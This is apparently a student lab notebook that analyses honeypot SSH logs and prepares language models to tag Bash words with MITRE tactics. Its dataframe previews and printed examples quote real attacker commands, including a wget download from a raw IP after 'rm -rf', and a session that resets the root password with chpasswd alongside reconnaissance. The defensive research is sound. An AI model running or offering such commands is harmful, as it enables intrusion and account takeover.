# Laboratory 4 — NLP for Malicious SSH Log Analysis

**Objective:** Apply NLP techniques to cybersecurity by fine-tuning pre-trained language models for Named Entity Recognition (NER) on SSH session logs. The goal is to classify each "SSH word" (command, flag, parameter, separator) to its corresponding **MITRE tactic**.

**Core Activities:**
* Analyze datasets described by textual data
* Understand the impact of different tokenization strategies
* Experiment with various pre-trained Language Models and compare their performance
* Use fine-tuned models for inference to investigate cybersecurity threats

> ⚠️ **WARNING:** The dataset contains attacks collected from real deployments. **Do not carelessly execute scripts on your laptop.**
>
> ⚠️ **CRITICAL:** Do not decode base64 strings found in the logs. They may contain malicious scripts.

## Setup

In [1]:
# --- Check Python and pip versions ---
!python --version
!pip install --upgrade pip

Python 3.12.13
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.8/1.8 MB 32.3 MB/s eta 0:00:00
  Attempting uninstall: pip
    Found existing installation: pip 24.1.2
    Uninstalling pip-24.1.2:
      Successfully uninstalled pip-24.1.2


In [2]:
# --- Install required libraries ---
!pip install torch torchvision
!pip install numpy pandas scikit-learn matplotlib seaborn
!pip install transformers datasets
!pip install tqdm psutil iterative-stratification


In [3]:
# --- Import libraries ---
import os
import time
import json
import numpy as np
import pandas as pd
import matplotlib.pyplot as plt
import seaborn as sns
import torch
import torch.nn as nn
import random
import math
import re

from collections import Counter
from copy import deepcopy
from itertools import chain
from sklearn.model_selection import train_test_split
from iterstrat.ml_stratifiers import MultilabelStratifiedShuffleSplit
from sklearn.metrics import (
    accuracy_score, precision_score, recall_score, f1_score,
    confusion_matrix, classification_report
)
from torch.optim import AdamW
from torch.nn.utils import clip_grad_norm_
from torch.utils.data import DataLoader
from transformers import (
    AutoTokenizer,
    AutoModelForTokenClassification,
    AutoConfig,
    DataCollatorForTokenClassification,
    get_scheduler
)
from datasets import Dataset, DatasetDict
from tqdm.auto import tqdm
from pathlib import Path

# Suppress warnings
import warnings
warnings.filterwarnings('ignore')


In [4]:
# --- Set random seed for reproducibility ---
SEED = 2025

def set_reproducible_seed(seed=SEED):
    """Reset all RNGs so hyperparameter trials start from comparable states."""
    random.seed(seed)
    np.random.seed(seed)
    torch.manual_seed(seed)
    if torch.cuda.is_available():
        torch.cuda.manual_seed_all(seed)

set_reproducible_seed()
torch.backends.cudnn.deterministic = True
torch.backends.cudnn.benchmark = False


In [5]:
# --- Set device ---
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")
print(f"Using device: {device}")

Using device: cuda


### Colab Pro

In [6]:
# --- Check GPU availability ---
gpu_info = !nvidia-smi
gpu_info = '\n'.join(gpu_info)
if gpu_info.find('failed') >= 0:
  print('Not connected to a GPU')
else:
  print(gpu_info)

Tue Jun 16 11:51:40 2026       
+-----------------------------------------------------------------------------------------+
| NVIDIA-SMI 580.82.07              Driver Version: 580.82.07      CUDA Version: 13.0     |
+-----------------------------------------+------------------------+----------------------+
| GPU  Name                 Persistence-M | Bus-Id          Disp.A | Volatile Uncorr. ECC |
| Fan  Temp   Perf          Pwr:Usage/Cap |           Memory-Usage | GPU-Util  Compute M. |
|                                         |                        |               MIG M. |
|=========================================+========================+======================|
|   0  Tesla T4                       Off |   00000000:00:04.0 Off |                    0 |
| N/A   37C    P8             15W /   70W |       3MiB /  15360MiB |      0%      Default |
|                                         |                        |                  N/A |
+-----------------------------------------+-----

In [7]:
# --- Check RAM availability ---
from psutil import virtual_memory
ram_gb = virtual_memory().total / 1e9
print('Your runtime has {:.1f} gigabytes of available RAM\n'.format(ram_gb))

if ram_gb < 20:
  print('Not using a high-RAM runtime')
else:
  print('You are using a high-RAM runtime!')

Your runtime has 13.6 gigabytes of available RAM

Not using a high-RAM runtime


### Paths setup


In [8]:
# --- Mount Google Drive (for Google Colab users) ---
IN_COLAB = False
try:
    from google.colab import drive  # type: ignore
    drive.mount('/content/drive')
    IN_COLAB = True
    print("Google Colab detected: Drive mounted.")
except ModuleNotFoundError:
    print("Local environment detected: skipping Google Drive mount.")

Mounted at /content/drive
Google Colab detected: Drive mounted.


In [9]:
# --- Define Paths ---
import os
from pathlib import Path

group = 'AImSecure'
laboratory = 'Laboratory4'

def find_repo_root(start: Path) -> Path:
    """Locate Laboratory4 whether Jupyter starts inside it or from labs/."""
    for candidate in [start, *start.parents]:
        direct_project = candidate
        nested_project = candidate / laboratory
        for project_candidate in (direct_project, nested_project):
            train_file = (
                project_candidate
                / 'lab'
                / 'data'
                / 'datasets'
                / 'train.json'
            )
            if train_file.exists():
                return project_candidate
    raise FileNotFoundError(
        "Could not locate Laboratory4/lab/data/datasets/train.json "
        f"starting from {start}."
    )

if IN_COLAB:
    base_path = Path('/content/drive/MyDrive')
    project_root = base_path / f'Projects/{group}/{laboratory}'
    data_candidates = [
        project_root / 'data',
        project_root / 'lab' / 'data' / 'datasets',
    ]
    results_root = project_root / 'results'
else:
    project_root = find_repo_root(Path.cwd().resolve())
    data_candidates = [
        project_root / 'lab' / 'data' / 'datasets',
        project_root / 'lab' / 'data',
        project_root / 'tmp' / 'lab' / 'data',
    ]
    results_root = project_root / 'tmp' / 'lab'

existing_data = next((p for p in data_candidates if p.exists()), data_candidates[0])

project_path = str(project_root) + '/'
data_path = str(existing_data) + '/'
results_path = str(results_root) + '/'

os.makedirs(results_root, exist_ok=True)

print(f"Project path: {project_path}")
print(f"Data path: {data_path}")
print(f"Results path: {results_path}")

Project path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/
Data path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/data/
Results path: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/


In [10]:
# --- Set report-ready visual style ---
PLOT_TITLE_SIZE = 16
PLOT_LABEL_SIZE = 14
PLOT_TICK_SIZE = 12
PLOT_LEGEND_SIZE = 12
PLOT_ANNOTATION_SIZE = 11
PLOT_LINEWIDTH = 2.3

sns.set_theme(
    style="whitegrid",
    palette="muted",
    font_scale=1.15,
    rc={
        "axes.titlesize": PLOT_TITLE_SIZE,
        "axes.labelsize": PLOT_LABEL_SIZE,
        "xtick.labelsize": PLOT_TICK_SIZE,
        "ytick.labelsize": PLOT_TICK_SIZE,
        "legend.fontsize": PLOT_LEGEND_SIZE,
        "figure.titlesize": PLOT_TITLE_SIZE,
        "lines.linewidth": PLOT_LINEWIDTH,
    },
)

plt.rcParams.update({
    "axes.titlesize": PLOT_TITLE_SIZE,
    "axes.labelsize": PLOT_LABEL_SIZE,
    "xtick.labelsize": PLOT_TICK_SIZE,
    "ytick.labelsize": PLOT_TICK_SIZE,
    "legend.fontsize": PLOT_LEGEND_SIZE,
    "figure.titlesize": PLOT_TITLE_SIZE,
    "lines.linewidth": PLOT_LINEWIDTH,
})

def format_report_axes(ax, legend=False, legend_kwargs=None):
    """Apply consistent, report-readable typography to one Matplotlib axis."""
    ax.tick_params(axis='both', labelsize=PLOT_TICK_SIZE)
    ax.xaxis.label.set_size(PLOT_LABEL_SIZE)
    ax.yaxis.label.set_size(PLOT_LABEL_SIZE)
    ax.title.set_size(PLOT_TITLE_SIZE)
    if legend:
        kwargs = {'fontsize': PLOT_LEGEND_SIZE, 'frameon': True}
        if legend_kwargs:
            kwargs.update(legend_kwargs)
        ax.legend(**kwargs)

def save_plot(fig: plt.Figure, filename: str, path: str = "./plots/", fmt: str = "png", dpi: int = 300, close_fig: bool = False) -> None:
    """
    Save a Matplotlib figure in a specific to a specified directory.

    Args:
        fig (plt.Figure): Matplotlib figure object to save.
        filename (str): Name of the file to save (e.g., 'plot.png').
        path (str, optional): Directory path to save the figure. Defaults to './plots/'.
        fmt (str, optional): File format for the saved figure. Defaults to 'png'.
        dpi (int, optional): Dots per inch for the saved figure. Defaults to 300.

    Returns:
        None
    """
    # Ensure the directory exists
    os.makedirs(path, exist_ok=True)
    save_path = os.path.join(path, f"{filename}.{fmt}")

    # Save the figure
    fig.savefig(save_path, bbox_inches='tight', pad_inches=0.1, dpi=dpi, format=fmt)
    # plt.close(fig) # Removed to display plots in notebook

    if close_fig:
        plt.close(fig)

    print(f"Saved plot: {save_path}")

## Task 1 — Dataset Characterization

Before training, explore the data to understand distributions and tokenization.

In [11]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task1_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load the datasets ---
with open(data_path + 'train.json', 'r') as f:
    train_data = json.load(f)
with open(data_path + 'test.json', 'r') as f:
    test_data = json.load(f)


def align_labels_to_bash_words(session, labels):
    """Return the Bash words defined by split() and one label per word.

    Four supplied training records contain repeated ASCII spaces or a
    non-breaking space. Their stored labels follow the original ASCII-space
    segments. We use those segments only to transfer each supplied label to
    the Bash words produced by the split() convention required by the brief.
    Empty segments disappear; a segment containing multiple whitespace-
    separated words propagates its label to each resulting Bash word.
    """
    session = str(session)
    labels = list(labels)
    bash_words = session.split()

    if len(bash_words) == len(labels):
        return bash_words, labels, False

    source_segments = session.split(' ')
    if len(source_segments) != len(labels):
        raise ValueError(
            f"Cannot align {len(labels)} labels: split() produced "
            f"{len(bash_words)} Bash words and the source contains "
            f"{len(source_segments)} ASCII-space segments."
        )

    aligned_words = []
    aligned_labels = []
    for segment, label in zip(source_segments, labels):
        segment_words = segment.split()
        aligned_words.extend(segment_words)
        aligned_labels.extend([label] * len(segment_words))

    if aligned_words != bash_words or len(aligned_labels) != len(bash_words):
        raise ValueError("Whitespace normalization did not preserve Bash-word order.")

    return aligned_words, aligned_labels, True


def normalize_labeled_dataframe(data):
    """Normalize word/label alignment without changing session text."""
    normalized = data.copy()
    words_column = []
    labels_column = []
    corrected_rows = []

    for row_index, row in normalized.iterrows():
        words, labels, corrected = align_labels_to_bash_words(
            row['session'],
            row['label'],
        )
        words_column.append(words)
        labels_column.append(labels)
        if corrected:
            corrected_rows.append(row_index)

    normalized['words'] = words_column
    normalized['label'] = labels_column
    return normalized, corrected_rows


train_df, corrected_train_rows = normalize_labeled_dataframe(
    pd.DataFrame(train_data)
)
test_df, corrected_test_rows = normalize_labeled_dataframe(
    pd.DataFrame(test_data)
)

print(f"Training dataset contains {len(train_df):,} sessions")
print(f"Testing dataset contains {len(test_df):,} sessions")
print(
    "Whitespace-alignment corrections: "
    f"train={len(corrected_train_rows)}, test={len(corrected_test_rows)}"
)
if corrected_train_rows or corrected_test_rows:
    print(
        f"Corrected row indices -> train={corrected_train_rows}, "
        f"test={corrected_test_rows}"
    )

train_df.head()


Training dataset contains 251 sessions
Testing dataset contains 108 sessions
Whitespace-alignment corrections: train=4, test=0
Corrected row indices -> train=[8, 83, 106, 124], test=[]


,session,label,words
0,rm -rf /var/run/1sh ; wget -c http://71.127.14...,"[Execution, Execution, Execution, Execution, E...","[rm, -rf, /var/run/1sh, ;, wget, -c, http://71..."
1,cat /proc/cpuinfo | grep name | wc -l ; echo r...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /proc/cpuinfo, |, grep, name, |, wc, -l,..."
2,cd /tmp || cd /var/run || cd /mnt || cd /root ...,"[Execution, Execution, Execution, Execution, E...","[cd, /tmp, ||, cd, /var/run, ||, cd, /mnt, ||,..."
3,ls -la /dev/ttyGSM* /var/spool/sms/* /var/log/...,"[Discovery, Discovery, Discovery, Discovery, D...","[ls, -la, /dev/ttyGSM*, /var/spool/sms/*, /var..."
4,cat /var/tmp/.systemcache436621 ; echo 1 > /va...,"[Discovery, Discovery, Discovery, Discovery, D...","[cat, /var/tmp/.systemcache436621, ;, echo, 1,..."


### 1.1 Label Analysis

**Instructions:**
- Count distinct tags and analyze distribution (bash words per tag).
- Create a Barplot showing tag distribution with 2 bars per tag: Train vs Test.

**Q:** What are the distinct MITRE tactic tags in the dataset? How are they distributed?

There are **7 MITRE tactic labels**: `Discovery`, `Execution`, `Persistence`, `Impact`, `Defense Evasion`, `Not Malicious Yet`, and `Other`. The dataset is strongly imbalanced. In the training set, **Discovery** is the majority class with **6007 words (52.37%)**, followed by **Execution** with **3236 words (28.21%)** and **Persistence** with **1133 words (9.88%)**. The remaining classes are much smaller: `Impact`, `Defense Evasion`, `Not Malicious Yet`, and `Other` are each below 3% of the training words. The test set follows the same overall pattern, so the main modeling difficulty is not a train/test distribution mismatch but the strong class imbalance.


In [12]:
# --- Analyze tag distribution ---
# Extract all tags from train and test sets
train_tags = [tag for tags in train_df['label'] for tag in tags]
test_tags = [tag for tags in test_df['label'] for tag in tags]

# Count unique tags
unique_tags = list(set(train_tags + test_tags))
print(f"Distinct tags found: {len(unique_tags)}")
print(f"Tags: {unique_tags}")

# Create distribution counts
train_tag_counts = Counter(train_tags)
test_tag_counts = Counter(test_tags)

# Calculate percentages
total_train = len(train_tags)
total_test = len(test_tags)

# Create DataFrame for plotting
tag_distribution = pd.DataFrame({
    'Tag': unique_tags,
    'Train Count': [train_tag_counts.get(tag, 0) for tag in unique_tags],
    'Train %': [round((train_tag_counts.get(tag, 0) / total_train) * 100, 2) if total_train > 0 else 0 for tag in unique_tags],
    'Test Count': [test_tag_counts.get(tag, 0) for tag in unique_tags],
    'Test %': [round((test_tag_counts.get(tag, 0) / total_test) * 100, 2) if total_test > 0 else 0 for tag in unique_tags]
}).sort_values('Train Count', ascending=False)

print("\nTag distribution (Counts and Percentages):")
print(tag_distribution.to_string(index=False))


Distinct tags found: 7
Tags: ['Discovery', 'Other', 'Defense Evasion', 'Execution', 'Not Malicious Yet', 'Persistence', 'Impact']

Tag distribution (Counts and Percentages):
              Tag  Train Count  Train %  Test Count  Test %
        Discovery         6007    52.37        3307   53.36
        Execution         3236    28.21        1568   25.30
      Persistence         1133     9.88         683   11.02
           Impact          312     2.72         133    2.15
  Defense Evasion          310     2.70         218    3.52
Not Malicious Yet          264     2.30         212    3.42
            Other          209     1.82          76    1.23


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task1_plots/tag_distribution_barplot.png




In [13]:
# --- Plot: Tag Distribution Barplot (Train vs Test) ---
fig, ax = plt.subplots(figsize=(12, 6))

x = np.arange(len(tag_distribution))
width = 0.35

bars1 = ax.bar(x - width/2, tag_distribution['Train Count'], width, label='Train', color='#2E86C1', edgecolor='black')
bars2 = ax.bar(x + width/2, tag_distribution['Test Count'], width, label='Test', color='#27AE60', edgecolor='black')

ax.set_xlabel('MITRE Tactic Tag', fontsize=PLOT_LABEL_SIZE)
ax.set_ylabel('Number of Bash Words', fontsize=PLOT_LABEL_SIZE)
ax.set_title('Tag Distribution: Train vs Test', fontsize=PLOT_TITLE_SIZE)
ax.set_xticks(x)
ax.set_xticklabels(tag_distribution['Tag'], rotation=45, ha='right')
format_report_axes(ax, legend=True)
ax.grid(True, linestyle='--', alpha=0.7, axis='y')

# Add value labels on bars
for bar in bars1:
    height = bar.get_height()
    ax.annotate(f'{int(height)}', xy=(bar.get_x() + bar.get_width()/2, height),
                xytext=(0, 3), textcoords="offset points", ha='center', va='bottom', fontsize=PLOT_ANNOTATION_SIZE)
for bar in bars2:
    height = bar.get_height()
    ax.annotate(f'{int(height)}', xy=(bar.get_x() + bar.get_width()/2, height),
                xytext=(0, 3), textcoords="offset points", ha='center', va='bottom', fontsize=PLOT_ANNOTATION_SIZE)

plt.tight_layout()
save_plot(fig, 'tag_distribution_barplot', path=save_dir, dpi=300)
plt.show()

### 1.2 Command Analysis: 'echo'

**Instructions:**
- Analyze how many different tags are assigned to the command `echo`.
- Find 1 example session where `echo` is tagged as 'Persistence' and 1 where it is 'Execution'.

**Q:** Why might the same command (`echo`) be labeled with different MITRE tactics in different contexts?

The command `echo` is context-dependent: in the training set it appears with **six different labels**. It is most often associated with **Persistence (104 occurrences)** and **Execution (39 occurrences)**, but also appears as `Discovery`, `Not Malicious Yet`, `Impact`, and `Other`. This happens because the command itself is not enough to determine the attack intent. For example, `echo` can modify credentials or write configuration content, which supports persistence, but it can also write and pipe a payload into `bash`, which is execution. Therefore, the surrounding Bash words and the role of the command in the session are essential.


In [14]:
# --- Analyze the 'echo' command ---
# Find all occurrences of 'echo' and their associated tags
echo_tags = []
echo_examples = {'Persistence': None, 'Execution': None}

for idx, row in train_df.iterrows():
    words = row['words']
    tags = row['label']

    for word, tag in zip(words, tags):
        if word.lower() == 'echo':
            echo_tags.append(tag)
            # Store example sessions
            if tag == 'Persistence' and echo_examples['Persistence'] is None:
                echo_examples['Persistence'] = {
                    'session': row['session'],
                    'label': tags,
                    'index': idx
                }
            elif tag == 'Execution' and echo_examples['Execution'] is None:
                echo_examples['Execution'] = {
                    'session': row['session'],
                    'label': tags,
                    'index': idx
                }

# Count unique tags for 'echo'
echo_tag_counts = Counter(echo_tags)
print(f"Tags assigned to 'echo' command:")
for tag, count in echo_tag_counts.most_common():
    print(f"  {tag}: {count}")

Tags assigned to 'echo' command:
  Persistence: 104
  Execution: 39
  Discovery: 31
  Not Malicious Yet: 8
  Impact: 6
  Other: 4


In [15]:
# --- Display example sessions for 'echo' with different tags ---
print("=" * 80)
print("Example session where 'echo' is tagged as 'Persistence':")
print("=" * 80)
if echo_examples['Persistence']:
    print(f"Session: {echo_examples['Persistence']['session']}")
    print(f"Labels: {echo_examples['Persistence']['label']}")
else:
    print("No 'Persistence' example found for 'echo'")

print("\n" + "=" * 80)
print("Example session where 'echo' is tagged as 'Execution':")
print("=" * 80)
if echo_examples['Execution']:
    print(f"Session: {echo_examples['Execution']['session']}")
    print(f"Labels: {echo_examples['Execution']['label']}")
else:
    print("No 'Execution' example found for 'echo'")

Example session where 'echo' is tagged as 'Persistence':
Session: cat /proc/cpuinfo | grep name | wc -l ; echo root:HGbB4i9gUXMh | chpasswd | bash ; cat /proc/cpuinfo | grep name | head -n 1 | awk {print $4,$5,$6,$7,$8,$9;} ; free -m | grep Mem | awk {print $2 ,$3, $4, $5, $6, $7} ; ls -lh $which ls ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ;
Labels: ['Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Persistence', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery', 'Discovery'

### 1.3 Session Length Analysis

**Instructions:**
- Calculate the number of Bash words per session.
- Plot an Estimated Cumulative Distribution Function (ECDF).

**Q:** What is the distribution of session lengths? Are there very long sessions that might cause issues during tokenization?

Session lengths are highly variable. In the training set, sessions range from **2 to 224 Bash words**, with mean **45.70** and median **17.00**. In the test set, they also range from **2 to 224 words**, with mean **57.38** and median **23.50**. The median is much smaller than the mean, which indicates a long right tail: most sessions are short, but a few very long sessions contain many commands or large payload-like strings. These long sessions are problematic for Transformer tokenizers because subword tokenization can expand a single Bash word into many tokens.


In [16]:
# --- Helper function for ECDF ---
def get_ecdf(list_numbers):
    """Calculate Empirical Cumulative Distribution Function."""
    counter = Counter(list_numbers)
    values = sorted(counter.keys())
    counts = [counter[value] for value in values]
    total = sum(counts)
    cumulative_probs = np.cumsum(counts) / total
    return values, cumulative_probs

In [17]:
# --- Calculate session lengths (number of bash words per session) ---
train_session_lengths = [len(row['session'].split()) for _, row in train_df.iterrows()]
test_session_lengths = [len(row['session'].split()) for _, row in test_df.iterrows()]

print("Training set session length statistics:")
print(f"  - Min: {min(train_session_lengths)}")
print(f"  - Max: {max(train_session_lengths)}")
print(f"  - Mean: {np.mean(train_session_lengths):.2f}")
print(f"  - Median: {np.median(train_session_lengths):.2f}")

print("\nTest set session length statistics:")
print(f"  - Min: {min(test_session_lengths)}")
print(f"  - Max: {max(test_session_lengths)}")
print(f"  - Mean: {np.mean(test_session_lengths):.2f}")
print(f"  - Median: {np.median(test_session_lengths):.2f}")

Training set session length statistics:
  - Min: 2
  - Max: 224
  - Mean: 45.70
  - Median: 17.00

Test set session length statistics:
  - Min: 2
  - Max: 224
  - Mean: 57.38
  - Median: 23.50


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task1_plots/session_length_ecdf.png




In [18]:
# --- Plot: ECDF of Session Lengths (Train vs Test) ---
train_lengths_ecdf, train_probs_ecdf = get_ecdf(train_session_lengths)
test_lengths_ecdf, test_probs_ecdf = get_ecdf(test_session_lengths)

fig, axs = plt.subplots(1, 2, figsize=(12, 4))

for ax in axs:
    ax.step(train_lengths_ecdf, train_probs_ecdf, where='post',
            color='#2E86C1', linewidth=PLOT_LINEWIDTH, label='Train')
    ax.step(test_lengths_ecdf, test_probs_ecdf, where='post',
            color='#E67E22', linewidth=PLOT_LINEWIDTH, label='Test')
    ax.grid(True, linestyle='--', alpha=0.7)
    ax.set_ylabel('ECDF', fontsize=PLOT_LABEL_SIZE)
    ax.set_ylim(0, 1.05)
    format_report_axes(ax, legend=True)

axs[0].set_xlabel('Number of Bash Words per Session', fontsize=PLOT_LABEL_SIZE)
axs[0].set_title('ECDF of Session Length (Linear Scale)', fontsize=PLOT_TITLE_SIZE)

axs[1].set_xlabel('Number of Bash Words per Session (log scale)', fontsize=PLOT_LABEL_SIZE)
axs[1].set_title('ECDF of Session Length (Log Scale)', fontsize=PLOT_TITLE_SIZE)
axs[1].set_xscale('log')

fig.suptitle('Session-Length ECDF: Train vs Test', fontsize=PLOT_TITLE_SIZE, y=1.04)
plt.tight_layout()
save_plot(fig, 'session_length_ecdf', path=save_dir)
plt.show()

## Task 2 — Tokenization

Compare two specific pre-trained models:
1. **BERT-base** (`bert-base-uncased`): Pre-trained on English text
2. **UnixCoder-base** (`microsoft/unixcoder-base`): Pre-trained on natural language and source code (Python, Java, Bash)

In [19]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task2_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load tokenizers ---
BERT_MODEL = "bert-base-uncased"
UNIXCODER_MODEL = "microsoft/unixcoder-base"

bert_tokenizer = AutoTokenizer.from_pretrained(BERT_MODEL, add_prefix_space=True)
unixcoder_tokenizer = AutoTokenizer.from_pretrained(UNIXCODER_MODEL, add_prefix_space=True)

print(f"BERT vocabulary size: {bert_tokenizer.vocab_size:,}")
print(f"UnixCoder vocabulary size: {unixcoder_tokenizer.vocab_size:,}")
print(f"\nModel max length (context size):")
print(f"  BERT: {bert_tokenizer.model_max_length:,}")
print(f"  UnixCoder: {unixcoder_tokenizer.model_max_length:,}")

config.json:   0%|          | 0.00/570 [00:00<?, ?B/s]

tokenizer_config.json:   0%|          | 0.00/48.0 [00:00<?, ?B/s]

vocab.txt:   0%|          | 0.00/232k [00:00<?, ?B/s]

tokenizer.json:   0%|          | 0.00/466k [00:00<?, ?B/s]

config.json:   0%|          | 0.00/691 [00:00<?, ?B/s]

tokenizer_config.json:   0%|          | 0.00/1.11k [00:00<?, ?B/s]

vocab.json:   0%|          | 0.00/938k [00:00<?, ?B/s]

merges.txt:   0%|          | 0.00/444k [00:00<?, ?B/s]

special_tokens_map.json:   0%|          | 0.00/772 [00:00<?, ?B/s]

BERT vocabulary size: 30,522
UnixCoder vocabulary size: 51,416

Model max length (context size):
  BERT: 512
  UnixCoder: 1,000,000,000,000,000,019,884,624,838,656


### 2.1 Micro-test: Tokenization Comparison

**Instructions:**
- Tokenize the list `['cat', 'shell', 'echo', 'top', 'chpasswd', 'crontab', 'wget', 'busybox', 'grep']`
- Compare how each tokenizer divides commands.

**Q:** Which tokenizer has a better token-to-word ratio for these SSH commands?

On the command micro-test, **UnixCoder has the better token-to-word ratio**: it produces **14 tokens** for 9 commands, while BERT produces **16 tokens**. Both tokenizers keep very common commands such as `cat`, `shell`, `echo`, and `top` mostly intact because these strings are frequent enough to appear as complete vocabulary units. Less frequent command-like words such as `chpasswd`, `crontab`, and `wget` are split into subword pieces. UnixCoder also keeps `grep` as a single token, which is consistent with its code-oriented pretraining and partly explains its lower ratio on this list.


In [20]:
# --- Micro-test: Tokenize specific SSH commands ---
test_commands = ['cat', 'shell', 'echo', 'top', 'chpasswd', 'crontab', 'wget', 'busybox', 'grep']

print("Tokenization comparison for SSH commands:")
print("=" * 70)
print(f"{'Command':<12} | {'BERT Tokens':<25} | {'UnixCoder Tokens':<25}")
print("-" * 70)

bert_total_tokens = 0
unix_total_tokens = 0

for cmd in test_commands:
    # Tokenize with BERT
    bert_tokens = bert_tokenizer.tokenize(cmd)
    # Tokenize with UnixCoder
    unix_tokens = unixcoder_tokenizer.tokenize(cmd)

    bert_total_tokens += len(bert_tokens)
    unix_total_tokens += len(unix_tokens)

    print(f"{cmd:<12} | {str(bert_tokens):<25} | {str(unix_tokens):<25}")

print("-" * 70)
print(f"\nTotal tokens for {len(test_commands)} commands:")
print(f"  BERT: {bert_total_tokens} tokens (ratio: {bert_total_tokens/len(test_commands):.2f})")
print(f"  UnixCoder: {unix_total_tokens} tokens (ratio: {unix_total_tokens/len(test_commands):.2f})")

Tokenization comparison for SSH commands:
Command      | BERT Tokens               | UnixCoder Tokens         
----------------------------------------------------------------------
cat          | ['cat']                   | ['Ġcat']                 
shell        | ['shell']                 | ['Ġshell']               
echo         | ['echo']                  | ['Ġecho']                
top          | ['top']                   | ['Ġtop']                 
chpasswd     | ['ch', '##pass', '##wd']  | ['Ġch', 'passwd']        
crontab      | ['cr', '##ont', '##ab']   | ['Ġc', 'ront', 'ab']     
wget         | ['w', '##get']            | ['Ġw', 'get']            
busybox      | ['busy', '##box']         | ['Ġbusy', 'box']         
grep         | ['gr', '##ep']            | ['Ġgrep']                
----------------------------------------------------------------------

Total tokens for 9 commands:
  BERT: 16 tokens (ratio: 1.78)
  UnixCoder: 14 tokens (ratio: 1.56)


### 2.2 Corpus Tokenization

**Instructions:**
- Tokenize the entire training corpus with both tokenizers.
- Compare average tokens per session and max tokens per session.

**Q:** Why might one tokenizer produce more tokens than another? (Hint: Consider usage of `[UNK]` token)

Before word truncation, BERT produces **178.59 tokens per session on average**, while UnixCoder produces **409.32**. The maximum sequence is also much larger for UnixCoder: **28920 tokens** versus **1889** for BERT. This is mainly due to unknown-token behavior. BERT uses `[UNK]` for some rare or malformed strings, collapsing them into fewer tokens; in this corpus it produces **303 `[UNK]` occurrences**. UnixCoder instead avoids `[UNK]` in this analysis and decomposes long Bash/base64-like strings into many subword tokens. This gives a more explicit representation, but it greatly increases token length.


In [21]:
# --- Tokenize the entire training corpus ---
train_sentences = train_df['session'].tolist()

# Tokenize with BERT
bert_tokenized = bert_tokenizer(train_sentences)
